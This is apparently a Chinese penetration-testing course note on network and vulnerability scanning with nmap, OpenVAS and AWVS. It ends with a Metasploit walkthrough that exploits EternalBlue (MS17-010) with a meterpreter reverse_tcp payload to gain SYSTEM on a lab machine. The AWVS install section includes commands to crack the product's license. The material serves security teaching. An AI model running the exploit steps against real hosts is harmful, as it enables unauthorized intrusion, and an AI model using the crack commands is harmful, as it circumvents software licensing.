

# 扫描技术

# **扫描**

**自动化**

**提高效率**

 

## **资产发现**

发现目标环境中哪些资产，联网设备，主机，服务器，各种服务等。

资产整理，发现，收集。

 

## **扫描神器（nmap）**

nmap.org

跨平台

自动集成在 kali

如果使用kali 中的nmap 扫描的时候，建议桥接

如果在没有指定端口的情况下，默认扫描top 1000 端口

主机发现

有哪些主机在线，IP 地址

 

### **端口扫描**

**开启的端口**

**端口上的服务**

**扫描方式**

   TCP 全链接扫描

   SYN 半连接扫描

   隐蔽扫描

​      Null 扫描

​      Xmas 扫描

​      FIN  扫描

 

### **参数**

**------**

> **-sP/-sn**       **不进行端口扫描**
>
> **-p**
>
> **-p 80**
>
> **-p 1-80**
>
> **-p 80,3389,8080**
>
> **-p 1-65535**
>
> **-p-**
>
> **-sT                TCP****全连接扫描**
>
> **建立完整的三次握手过程**
>
> **-sS               SYN****半连接扫描**
>
> **只进行三次握手的前两次**
>
> **-sN               Null****扫描**
>
> **-sX               Xmas****扫描**
>
> **-sF               Fin****扫描**
>
> **-sV**                                  **显示服务的详细版本**
>
> **-O**                **获取操作系统类型（不太准确）**
>
> **-oN/-ox**           **保存扫描结果，****txt/xml**
>
> **xpath** **自学**
>
> **-A**                **全面扫描**
>
> **-T0 ~ -T5**         **时序选项**

**------**

### **命令**

**------**

> - **nmap**
> - **nmap 127.0.0.1**
> - **nmap 192.168.1.0/24 -sP**
> - **namp 127.0.0.1 -p-**
> - **nmap 192.168.1.1 -p 80 -sT**
> - **nmap 192.168.1.1 -p 80 -sS**
> - **nmap 192.168.1.1 -p 80 -sX**
> - **nmap 192.168.1.1 -p 80 -sN**
> - **nmap 192.168.1.1 -p 80 -sF**
> - **namp -sV 127.0.0.1 -p 22**
> - **nmap -p- -A 127.0.0.1 -oN result.txt**

**---------------**

 

```sh
root@localhost:~# nmap 192.168.1.105
Starting Nmap 6.47 ( http://nmap.org ) at 2015-05-05 18:44 CST
Nmap scan report for localhost (192.168.1.105)
Host is up (0.00010s latency).
Not shown: 995 closed ports
PORT   STATE SERVICE
21/tcp      open  ftp
22/tcp      open  ssh
23/tcp      open  telnet
111/tcp    open  rpcbind
445/tcp    open  microsoft-ds
MAC Address: 00:0C:29:31:02:17 (VMware)
Nmap done: 1 IP address (1 host up) scanned in 0.87 seconds


从输出信息中，可以看到目标主机192.168.1.105上开启的端口有21、22、23、111、445，及这些端口所对应的服务。而且，还可以看到该目标主机的MAC地址为00:0C:29:31:02:17。从最后一行信息，可以看出目标主机是活动的（up），并且扫描该目标主机共用了0.87秒。


Nmap工具默认扫描前1000个端口，即1-1000。如果用户想扫描1000以上端口的话，需要使用-p选项来指定
```


### **端口状态**

开放

关闭

过滤

未过滤

开放|过滤

关闭|过滤

 

### **工具**

wireshark

ipaddr == 10.0.105.1 and tcp.port == 80

过滤

 

# **网络漏洞扫描**

我们可以通过网络漏洞扫描，全面掌握目标服务器存在的安全隐患。市面上常用的扫描器有Nessus、NeXpose、OpenVAS等，这是扫描器都有商业版和家庭版

我们这里使用的是OpenVAS，可以用来识别远程主机、Web应用存在的各种漏洞。Nessus 曾是业内开源扫描工具的的标准，在Nessus 商业化不再开放源代码后，在它的原始项目中分支出OpenVAS 开源项目。经过多年发展，OpenVAS已经成为当前最好的开源漏洞扫描器，功能非常强大，甚至可以跟一些商业漏洞扫描器相媲美。

OpenVAS 使用 NVT 脚本对多种远程系统（包括Windows、Linux、UNIX 以及Web 应用程序）的安全问题进行检测

 

### **漏洞扫描原理**

网络漏洞扫描是指利用一些自动化的工具发现网上的各类主机设备的安全漏洞。

 

## **漏洞扫描通常分为两大类**

 

### *******黑盒扫描**

黑河扫描一般通过远程识别服务的类型和版本，对服务是否存在漏洞进行判定。在一些最新的漏洞扫描软件中，应用了一些更高级的的技术，比如模拟渗透攻击

 

### *******白盒测试**

白盒扫描就是在具有主机权限的情况下进行漏洞扫描。比如微软的补丁更新程序会定期对你的操作系统进行扫描，查找存在的安全漏洞，并向你推送详细的系统补丁

 

白盒扫描的结果更加准确，但是一般来说他所测出来的漏洞不应当直接作为渗透测试的最终数据，因为这些漏洞由于防火墙和各类防护软件的原因很可能无法在外部渗透的测试中得到利用。同时，一般情况下，你是没有机会获取用户的用户名和口令。

 

漏洞扫描器一般会附带一个用于识别主机漏洞的特征库，并定期进行更新。在漏洞扫描的时候，就是利用特征库里的脚本与目标系统的反馈信息进行匹配，如果能匹配上，就说明存在一个漏洞。

 

漏洞扫描器再识别漏洞的过程中，会向目标发送大量的数据包，有时候会导致目标系统拒绝服务或被扫描数据包阻塞，扫描行为会被对方的入侵检测设备发现。

 

漏洞扫描器扫描出的结果通常会有很多误报（报告发现的漏洞实际不存在）或者漏报（未报告发现的漏洞实际存在）。因此，需要对扫描结果进行人工分析，确定哪些漏洞是实际存在的，这个过程叫做漏洞验证。这是渗透测试过程中不可缺少的一步，只有验证漏洞存在的真实性，才能对漏洞进行深度利用。

 

渗透测试工作中，在得到客户认可的情况下，可以使用扫描器进行扫描，但使用时一定要注意规避风险，对其系统运行可能造成的影响降到最低。

 

## **OpenVAS** **扫描**

### *******扫描目标**

开始进行扫描的时候需要新建一个目标。

新建目标


填写好相关信息，点击[Create].

 

### *******扫描策略**

查看扫描模板，就是扫描过程中使用的扫描策略和配置，这些扫描模板也可自己配置。

 

### *******扫描任务**

创建好目标之后，我们创建扫描任务。

新建任务


填写好相关信息，名称自定义。扫描目标要选择之前配置过的，会以下拉列表的形式展现。

创建好扫描目标

点击开始扫描

### *******扫描完成**

点击任务状态，可以查看扫描结果

这里我们发现目标主机存在“永恒之蓝”漏洞

### *******扫描报告**

我们将扫描结果以报告的形式保存下来。

 

## **Web** **漏洞扫描**

 

随着互联网的发展，Web 应用越来越多，同时Web 应用的攻击成本、攻击难度都比较低，Web 应用成为黑客攻击的主要目标。无论黑客处于什么样的目的，Web 应用所面临的挑战都很大的。

如何即时、快速的发现漏洞，并且修补漏洞，减轻和消除Web 安全风险成为安全行业的重要课题

小型的Web 应用几十上百个页面，大型的Web 应用成千上万个页面，如果靠人工的方法，显然是不可取的。因此我们就需要借助与自动化工具，帮助审计员去发现Web 漏洞。

市面上的Web 漏洞扫描器有很多，其中IBM 公司的AppScan 和商业化Web 漏洞扫描器AWVS 未优秀。Web 漏洞扫描器大同小异，本课程以AWVS 未例子，讲解Web 漏洞扫描器的使用。

## 安装

```sh
sudo chmod 777 acunetix_trial.sh patch_awvs 
sudo ./acunetix_trial.sh


Configuring hostname...
Insert new hostname, or leave blank to use kali
    Hostname [kali]: <直接回车即可>
    Using hostname kali

Configuring the master user...
    Email: xxxxx@gmail.com <此处输入邮箱，邮箱必须字母开头，不需要一定是你拥有的邮箱，这个只是用于之后登陆用，例如你可以用la12345@gmail.com>
    Password: 
    Password again: 
    
    
admin@admin.com
Admin123

手动破解
sudo cp -a patch_awvs /home/acunetix/.acunetix_trial/v_190325161/scanner/
sudo chmod 777 /home/acunetix/.acunetix_trial/v_190325161/scanner/patch_awvs
sudo /home/acunetix/.acunetix_trial/v_190325161/scanner/patch_awvs

为防止破解以后失效，我们需要执行下面几条命令：
sudo chattr +i /home/acunetix/.acunetix_trial/data/license/license_info.json
sudo rm -fr /home/acunetix/.acunetix_trial/data/license/wa_data.dat
sudo touch /home/acunetix/.acunetix_trial/data/license/wa_data.dat
sudo chattr +i /home/acunetix/.acunetix_trial/data/license/wa_data.dat

重启 acunetix 服务：
sudo systemctl restart acunetix_trial.service 
```




### 使用AWVS** 扫描testfire.net

创建扫描目标

点击[New Scan]，即可打开扫描向导，在Website URL中输入网址[http://www.testfire.net],跟着向导一步一步配置即可。

 

### **Web** **漏洞扫描原理**

进行Web漏洞扫描的时候，大致分为以下几个步骤：

**@** **爬行网站目录？？？**

asp

.net

php

框架类的不建议扫描

> JAVA框架
>
> <http://domain/1/2/3/4/hello>
>
> index.php

**@** **使用漏洞脚本扫描**

**@** **保存扫描结果**

 

### **关于漏洞**

漏洞名称

漏洞风险等级

高危|中危|低危|信息漏洞

 

### **漏洞的描述**

漏洞的危害

前半部分

后半部分

修复建议

前半部分

后半部分

 

## **永恒之蓝漏洞复现**

 

**工具：MSF**

**meta****sploit framework**

**具体过程**

> **·****msfconsole**
>
> **·****search MS17-010**
>
> **·use exploit/windows/smb/ms17_010_eternalblue**
>
> **·set payload windows/x64/meterpreter/reverse_tcp**
>
> **·set RHOSTS 192.168.1.143    //目标靶机ip**
>
> **·set LHOST 192.168.1.142    //本机IP**
>
> **·exploit**


**成功拿到靶机的 ** **system**  **权限**

****

